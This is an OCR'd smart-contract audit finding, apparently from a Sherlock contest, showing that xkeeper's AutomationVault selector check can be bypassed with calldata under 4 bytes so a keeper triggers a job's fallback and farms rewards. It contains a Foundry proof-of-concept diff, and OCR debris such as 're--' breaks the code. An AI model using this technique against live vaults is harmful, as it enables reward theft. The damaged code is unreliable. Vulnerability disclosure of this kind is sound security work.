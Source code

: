 Colossal Rose Jaguar

medium

# Keepers can execute the `fallback` method even if it's not one of the approved selectors for that job.

## Summary
Because `_dataToExecute.jobData` is explicitly converted to `bytes4` in `AutomationVault.exec()`, the keeper can call the fallback method of the job contract even if it's not an approved job selector. This allows the keeper to repeatedly invoke the fallback method to farm rewards from that job.

## Vulnerability Detail
Each job configured in the `AutomationVault` contract can have one or more approved selectors that the keeper can call. Below is a snippet from the `AutomationVault.exec()` function where the selectors are validated. First, it converts `_dataToExecute.jobData` to `bytes4` and checks if it matches one of the allowed selectors. If it does, the function proceeds to call that job contract with `_dataToExecute.jobData` as calldata.

```solidity
      // Check that the selector is approved to be called
      if (!_approvedJobSelectors[msg.sender][_dataToExecute.job].contains(bytes4(_dataToExecute.jobData))) {
        revert AutomationVault_NotApprovedJobSelector();
      }
      (_success,) = _dataToExecute.job.call(_dataToExecute.jobData);
      if (!_success) revert AutomationVault_ExecFailed();
```

However, the code assumes that `bytes4(_dataToExecute.jobData)` and `_dataToExecute.jobData` are equal, which is not always the case. If `_dataToExecute.jobData` is smaller than 4 bytes, the explicit conversion to `bytes4` will pad it with zero bytes, making `bytes4(_dataToExecute.jobData)` not equal to `_dataToExecute.jobData`.

Consider this example: for a specified job, the approved selector is `0x8df82800` (for the `settle(uint256)` function). If the keeper sends the malformed `0x8df828` as `_dataToExecute.jobData`, the selector validation will succeed, but when the job contract is called, no function selector will match `0x8df828`, causing the fallback method (if it exists) to be executed. Thus, the fallback method can be called even though it was never approved for that job.

This issue can be exploited under two conditions:
- One of the approved function selectors for that job must have one or more`0x00` trailing bytes.
- There must be a fallback method on the job contract.

Considering the uniform distribution of function selectors (a fair assumption given they are the output of keccak256), the first condition will be met in approximately 0.39% of all approved selectors (1 trailing `0x00` byte (1/256) + 2 trailing `0x00` bytes (1/65536) + ... ). Although the probabilities are low, as the `AutomationVault` is supposed to be a general keeper aggregator, these situations will arise and potentially be exploited.

By exploiting this issue, a malicious keeper can call `AutomationVault.exec()` without actually executing the intended job and instead only calling the `fallback` method, yet still receiving rewards. This can be done repeatedly to farm rewards from that job. If the fallback method also has negative side effects on the job, they can also be exploited by the malicious keeper.

See the POC below. To run the POC apply the diff patch below and run the following `test_POC` test.

```diff
diff --git a/xkeeper-core/solidity/test/integration/OpenRelay.t.sol b/xkeeper-core/solidity/test/integration/OpenRelay
.t.sol--
index 7b40c3b..fac6c2b 100644
--- a/xkeeper-core/solidity/test/integration/OpenRelay.t.sol
+++ b/xkeeper-core/solidity/test/integration/OpenRelay.t.sol
@@ -5,7 +5,25 @@ import {CommonIntegrationTest} from '../integration/Common.t.sol';
 
 import {IAutomationVault} from '../../interfaces/core/IAutomationVault.sol';
 
+contract Job {
+  event Settled();
+  event Fallback();
+
+  function settle(uint256) external {
+    // Do stuff
+    emit Settled();
+  }re--
+
+  fallback() external payable {
+    emit Fallback();
+  }re--
+}More--
+
+
 contract IntegrationOpenRelay is CommonIntegrationTest {
+
+  event Fallback();
+
   function setUp() public override {
     // AutomationVault setup
     CommonIntegrationTest.setUp();
@@ -32,6 +50,38 @@ contract IntegrationOpenRelay is CommonIntegrationTest {
     changePrank(bot);
   }
 
+  function test_POC() public {
+    // Start of setup
+    Job jobContract = new Job();
+
+    address[] memory _bots = new address[](1);
+    _bots[0] = bot;
+
+    bytes4[] memory _jobSelectors = new bytes4[](1);
+    // 0x8df82800 -> bytes4(keccak256(abi.encode("settle(uint256)")))
+    _jobSelectors[0] = bytes4(0x8df82800);
+
+    IAutomationVault.JobData[] memory _jobsData = new IAutomationVault.JobData[](1);
+    _jobsData[0] = IAutomationVault.JobData(address(jobContract), _jobSelectors);
+
+    changePrank(owner);
+    automationVault.modifyRelay(address(openRelay), _bots, _jobsData);
+    address(automationVault).call{value: 100 ether}('');
+
+    changePrank(bot);
+    // End of setup
+
+    IAutomationVault.ExecData[] memory _execData = new IAutomationVault.ExecData[](1);
+    // Malformed selector to trigger the execution of the fallback method;
+    bytes3 selector = bytes3(0x8df828);
+    _execData[0] = IAutomationVault.ExecData(address(jobContract), abi.encodePacked(selector));
+
+    // Check that the fallback method was executed instead of the settle(uint256) function.
+    vm.expectEmit(address(jobContract));
+    emit Fallback();
+    openRelay.exec(automationVault, _execData, bot);
+  }re--
+
```

## Impact
For jobs that match both conditions described above, the keeper can execute the `fallback` method despite it not being listed in the allowed selectors. This enables the keeper to farm rewards from that job or potentially trigger unintended side-effects from the `fallback` function.

## Code Snippet
https://github.com/sherlock-audit/2024-04-xkeeper/blob/main/xkeeper-core/solidity/contracts/core/AutomationVault.sol#L413-L418

## Tool used
Manual Review

## Recommendation
Consider checking that if `_dataToExecute.jobData` is at least 4 bytes long, thus preventing the issue described above from occurring.
